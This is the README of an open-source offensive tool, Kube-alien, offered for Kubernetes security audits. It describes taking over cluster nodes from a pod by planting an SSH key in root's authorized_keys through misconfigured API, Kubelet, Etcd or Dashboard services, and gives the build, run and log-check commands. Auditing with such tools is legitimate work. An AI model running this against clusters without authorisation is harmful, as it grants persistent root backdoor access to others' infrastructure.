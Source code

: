 # Kube-alien

This tool launches attack on k8s cluster from within. That means you already need to have an access with permission to deploy pods 
in a cluster to run it. After running the kube-alien pod it tries to takeover cluster's nodes by adding your public key to node's 
/root/.ssh/authorized_keys file by using this image https://github.com/nixwizard/dockercloud-authorizedkeys (Can be adjusted using 
ADD_AUTHKEYS_IMAGE param in config.py) forked from docker/dockercloud-authorizedkeys.
The attack succeedes if there is a misconfiguration in one of the cluster's components it goes along the following vectors:

- Kubernetes API
- Kubelet service
- Etcd service
- Kubernetes-Dashboard

What is the purpose of this tool? 
- While doing security audit of a k8s cluster one can quickly assess it's security posture.
- Partical demostration of the mentioned attack vectors exploitation.

How can k8s cluster be attacked from within in a real life?
- RCE or SSRF vunerability in an app which is being run in one of your cluster's pods.

# Usage
Kube-alien image should be pushed to your dockerhub(or other registry) before using with this tool.
```
git clone https://github.com/nixwizard/kube-alien.git
cd kube-alien
docker build -t ka ./
docker tag ka YOUR_DOCKERHUB_ACCOUNT/kube-alien
docker push YOUR_DOCKERHUB_ACCOUNT/kube-alien
```
The AUTHORIZED_KEYS env required to be set to the value of your ssh public key, in case of success the public key will be added to all 
node's root's authorized_keys file.
```
kubectl run --image=YOUR_DOCKERHUB_ACCOUNT/kube-alien kube-alien --env="AUTHORIZED_KEYS=$(cat ~/.ssh/id_rsa.pub)" --restart Never
```
or you may use my image for quick testing purpose:
```
kubectl run --image=nixwizard/kube-alien kube-alien --env="AUTHORIZED_KEYS=$(cat ~/.ssh/id_rsa.pub)" --restart Never
```
Check Kube-alien pod's logs to see if attack was successful:
```
kubectl logs $(kubectl get pods| grep alien|cut -f1 -d' ')
```

# The following resources helped me a lot in creating this tool
- https://www.youtube.com/watch?v=vTgQLzeBfRU
- https://www.youtube.com/watch?v=dxKpCO2dAy8 (and other awesome posts on kubernetes attack surface at https://raesene.github.io)
- https://medium.com/handy-tech/analysis-of-a-kubernetes-hack-backdooring-through-kubelet-823be5c3d67c
